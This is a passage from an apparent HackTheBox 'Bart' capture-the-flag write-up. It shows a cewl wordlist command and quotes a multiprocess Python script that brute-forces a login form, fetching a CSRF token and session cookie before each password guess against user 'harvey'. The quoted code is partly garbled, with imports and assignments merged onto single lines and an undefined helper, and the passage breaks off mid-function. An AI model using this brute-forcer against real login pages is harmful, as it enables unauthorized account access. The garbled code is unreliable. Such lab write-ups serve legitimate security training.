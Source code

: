 Also thanks to [0xdf's writeup](https://0xdf.gitlab.io/2018/07/15/htb-bart.html) I discovered the very cool little tool cewl, which allowed him to build a small dictionary out of the information found from the forum page:

```aaa
$ cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

I didn't go for this approach because the login page has a CSRF token so I didn't fee like scripting a bruteforcer just for this box, however here is 0xdf's code:

```python
#!/usr/bin/env python3

import reimport requestsimport sysfrom multiprocessing import Pool


MAX_PROC = 50url = "http://monitor.bart.htb/"username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
   print("{} [wordlist]".format(sys.argv[0]))
   print("  wordlist should be one word per line]")
   sys.exit(1)

def check_password(password):

   # get csrf token and PHPSESSID
   r = requests.get(url)
   csrf = re.search(csrf_pattern, r.text).group(1)
   PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

   # try login:
   data = {"csrf": csrf,
           "user_name": username,
           "user_password": password,
           "action": "login"}
   proxies = {'http': 'http://127.0.0.1:8080'}
   headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
   r = requests.post(url, data=data, proxies=proxies, headers=headers)

   if '<p>The information is incorrect.</p>' in r.text:
       return password, False
   else:
       return password, True


def main(wordlist, nprocs=MAX_PROC):
   with open(wordlist, 'r', encoding='latin-1') as f:
      words = f.read().rstrip().replace('\r','').split('\n')

   words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

   pool = Pool(processes=nprocs)

   i = 0
   print_status(0, len(words))
   for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
       if status:
           sys.stdout.write("\n[+] Found password: {} \n".format(password))
           pool.terminate()
```